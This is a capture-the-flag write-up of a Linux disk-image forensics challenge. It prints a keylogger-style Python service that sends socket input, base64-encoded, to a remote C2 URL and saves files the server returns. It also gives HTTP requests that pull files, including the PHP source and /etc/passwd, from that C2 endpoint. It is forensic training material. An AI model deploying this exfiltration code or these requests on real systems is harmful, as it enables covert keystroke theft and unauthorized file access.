

# Haunted-server
## Flag 1:

### Description
```
One of our agents, Simon Letti, has been seeing some strange traffic coming from his server. He provided us with the attached disk image. NICC needs your help to find what is going on. We suspect that our enemy, RB, is somehow involved.
```

### Developer:
Noah Jacobson https://github.com/noahajac

### Hint:
RB was definitely involved. He sent us this message, but we don't know what it means. "T1546.004"

### Information:
Fichier: haunted-server.aff

### Solution

I had to search up what was `.aff`
```bash
file haunted-server.aff
haunted-server.aff: data
```

Trying usual tool

Humm binwalk found a lots of thing in this, killing it because i'm impatient!
```bash
binwalk haunted-server.aff 
[...]
37277876      0x238D0B4       Executable script, shebang: "/usr/bin/sh"
[...]
^c
```
Looking up the internet I come around those link

- https://cs.harvard.edu/malan/publications/aff.pdf
- https://filext.com/file-extension/AFF

```
AFFLIB (raw disk image) by Simson L. Garfinkel and Basis Technology
AFFLIB is a set of tools for implemening the Advanced Forensics Format (AFF), which is an open extensible format that stores raw disk images. It stores both forensic data and metadata. The format is used by forensic practitioners to store data collected from disk drives for forensic analysis and can be used with multiple forensic analysis tools. Advanced Forensics Format files have the AFF extension. This file format is classified as Disk Image. Related links: Currently Maintained Repository, AFF Details, Research Paper About AFF Format, AFF Format Specifications, Introduction of AFF Format
```
Look like I will need more tools

*** brb installing some tools ***

Lets try to mount that thing
```
affuse -o r haunted-server.aff /mnt/aff_image
```
Good enough!
```bash
-r--r--r--  1 root root  10G Dec 31  1969 haunted-server.aff.raw
```

What the `REDACTED` is that file
```
file haunted-server.aff.raw 
haunted-server.aff.raw: DOS/MBR boot sector
```
Containing partition?

```bash
fdisk -l haunted-server.aff.raw 
Disk haunted-server.aff.raw: 10 GiB, 10737418240 bytes, 20971520 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x55084a9f

Device                  Boot   Start      End  Sectors Size Id Type
haunted-server.aff.raw1 *       2048  2099199  2097152   1G 83 Linux
haunted-server.aff.raw2      2099200 20971519 18872320   9G 8e Linux LVM
```
Haha lvm!

Searching up again to understand how to proceed

```
# ls loopt device
losetup -a

# So 0 should the be next one available
losetup -f
/dev/loop0


losetup /dev/loop0 haunted-server.aff.raw

# Did it worked?
fdisk -l /dev/loop0

Disk /dev/loop0: 10 GiB, 10737418240 bytes, 20971520 sectors
Units: sectors of 1 * 512 = 512 bytes
Sector size (logical/physical): 512 bytes / 512 bytes
I/O size (minimum/optimal): 512 bytes / 512 bytes
Disklabel type: dos
Disk identifier: 0x55084a9f

Device       Boot   Start      End  Sectors Size Id Type
/dev/loop0p1 *       2048  2099199  2097152   1G 83 Linux
/dev/loop0p2      2099200 20971519 18872320   9G 8e Linux LVM
```

We are going somewhere!
```bash
losetup -o $((2048 * 512)) /dev/loop1 haunted-server.aff.raw
mount /dev/loop1 /mnt/lvm_2
mount: /mnt/lvm_2: WARNING: source write-protected, mounted read-only.

# Oh this is the boot one, (grub2, efi...)
dr-xr-xr-x.  5 root root 4.0K Sep 27 10:40 .
drwxr-xr-x  15 root root 4.0K Oct 30 17:26 ..
-rw-r--r--.  1 root root 222K Sep 19 03:00 config-5.14.0-511.el9.x86_64
drwxr-xr-x.  3 root root   17 Sep 27 10:27 efi
drwx------.  5 root root   97 Oct  3 21:34 grub2
-rw-------.  1 root root 152M Sep 27 10:29 initramfs-0-rescue-1a30e7a727454ebc8ca366f371c363ed.img
-rw-------.  1 root root  37M Sep 27 10:31 initramfs-5.14.0-511.el9.x86_64.img
-rw-------.  1 root root  34M Sep 27 10:40 initramfs-5.14.0-511.el9.x86_64kdump.img
drwxr-xr-x.  3 root root   21 Sep 27 10:28 loader
lrwxrwxrwx.  1 root root   45 Sep 27 10:28 symvers-5.14.0-511.el9.x86_64.gz -> /lib/modules/5.14.0-511.el9.x86_64/symvers.gz
-rw-------.  1 root root 8.5M Sep 19 03:00 System.map-5.14.0-511.el9.x86_64
-rwxr-xr-x.  1 root root  14M Sep 27 10:29 vmlinuz-0-rescue-1a30e7a727454ebc8ca366f371c363ed
-rwxr-xr-x.  1 root root  14M Sep 19 03:00 vmlinuz-5.14.0-511.el9.x86_64
-rw-r--r--.  1 root root  160 Sep 19 02:59 .vmlinuz-5.14.0-511.el9.x86_64.hmac
```

Unmounting everything and retrying because i'm getting confused

```bash
losetup -f -P haunted-server.aff.raw
mount /dev/loop2 /mnt/lvm_3/
mount: /mnt/lvm_3: unknown filesystem type 'LVM2_member'.
       dmesg(1) may have more information after failed mount system call.
```
ok! Lets use some LVM command 

```bash
vgscan
  Found volume group "cs_simonserver" using metadata type lvm2

vgchange -ay
  2 logical volume(s) in volume group "cs_simonserver" now active

lvscan
  ACTIVE            '/dev/cs_simonserver/swap' [1.00 GiB] inherit
  ACTIVE            '/dev/cs_simonserver/root' [<8.00 GiB] inherit
```
And now I try for a fair... amount of time to understand why I cannot see em in `/dev/mapper`. Is being on `WSL` causes issue? 

Finally... https://manpages.ubuntu.com/manpages/noble/man8/dmsetup.8.html

```bash
dmsetup mknodes

brw-rw----  1 root disk 252,   1 Oct 30 17:44 cs_simonserver-root
brw-rw----  1 root disk 252,   0 Oct 30 17:44 cs_simonserver-swap

mount /dev/mapper/cs_simonserver-root /mnt/lvm_root
```
...
While i was doing the CTF I had no problem mounting them


During the writeup tho....
```
mount /dev/mapper/cs_simonserver-root /mnt/lvm_root/
mount: /mnt/lvm_root: can't read superblock on /dev/mapper/cs_simonserver-root.
       dmesg(1) may have more information after failed mount system call.
```
And I spend a couple hour retrying to mount that thing, but I ran out of time
Fortunately I still have half the flag that I extracted so I can still explain the challenge

I cheked the log in /var/log and found out some python process that crashed `systemcontrol`
```python
#!/usr/bin/env python3

from socketserver import UnixStreamServer, StreamRequestHandler, ThreadingMixIn
import os
import socket
import requests
import time
import base64

# RmxhZyBQYXJ0IDI6IF9oM3IzX2hhaGFoYWhhfQ==

sockFile = "/tmp/systemcontrol614af1b65d944d989a457c21a39b4377.sock"
url = 'https://REDACTED/cgi-bin/614af1b65d944d989a457c21a39b4377.php'
try:
    os.remove(sockFile)
except OSError:
    pass

class Handler(StreamRequestHandler):
    def handle(self):
        while True:
            msg = self.rfile.readline()
            if msg:
                response = requests.post(url+'?op=upload', json={
                    'data': base64.b64encode(msg).decode('utf-8'),
                    'id': self.connection.fileno(),
                    'time': int(time.time()),
                    'hostname': socket.gethostname()
                })

                if response.headers.get('Content-Disposition'):
                    filename = response.headers['Content-Disposition'].split('filename=')[1].strip('"')
                    with open(filename, 'wb') as f:
                        f.write(response.content)
            else:
                return

class ThreadedUnixStreamServer(ThreadingMixIn, UnixStreamServer):
    pass

with ThreadedUnixStreamServer(sockFile, Handler) as server:
    os.chmod(sockFile, 0o0777);
    server.serve_forever()
```
Might not be the EXACT same code as I played with it a little bit
The 2nd part of the flag is in `b64`
`RmxhZyBQYXJ0IDI6IF9oM3IzX2hhaGFoYWhhfQ==`
`Flag Part 2: _h3r3_hahahaha}`

What we need to understand here is that everything written in `/tmp/systemcontrol614af1b65d944d989a457c21a39b4377.sock` will be sent to a distant server

This look like a keylogger to me, so I took a look in `/home/simon/.bashrc` to fint out a redirection into the unix socket with the first part of the flag in `b64`


# Flag 2: haunted-c2
Once solved, it open a WEB tile, so my teammate @`aulyxs` solved it

Here are the request he use to capture the flag!
He sent those to the server we found in the `systemcontrol` code

```h
POST
/cgi-bin/614af1b65d944d989a457c21a39b4377.php?op=upload HTTP/1.1
Host: REDACTED
Content-Type: appplication/json
Content-Length: 62

{"data":"L2V0Yy9wYXNzd2Q=","id":"1","time":"1","hostname":"1"}
```

`L2V0Yy9wYXNzd2Q=` is `/etc/passwd`


```bash
echo NjE0YWYxYjY1ZDk0NGQ5ODlhNDU3YzIxYTM5YjQzNzcucGhw | base64 -d
614af1b65d944d989a457c21a39b4377.php
```

```h
GET
/cgi-bin/614af1b65d944d989a457c21a39b4377.php?op=view&file=NjE0YWYxYjY1ZDk0NGQ5ODlhNDU3YzIxYTM5YjQzNzcucGhw HTTP/1.1
Host: REDACTED
```

We now ave the code



Sending the `SECRET` header

```h
/cgi-bin/614af1b65d944d989a457c21a39b4377.php?op=flag HTTP/1.1
Host: REDACTED
SECRET: 8662884dcb7e466e87809190e3f5ed9
```

It will reveal the flag `NICC{0h_n0_y0u_c4ught_m3!}`
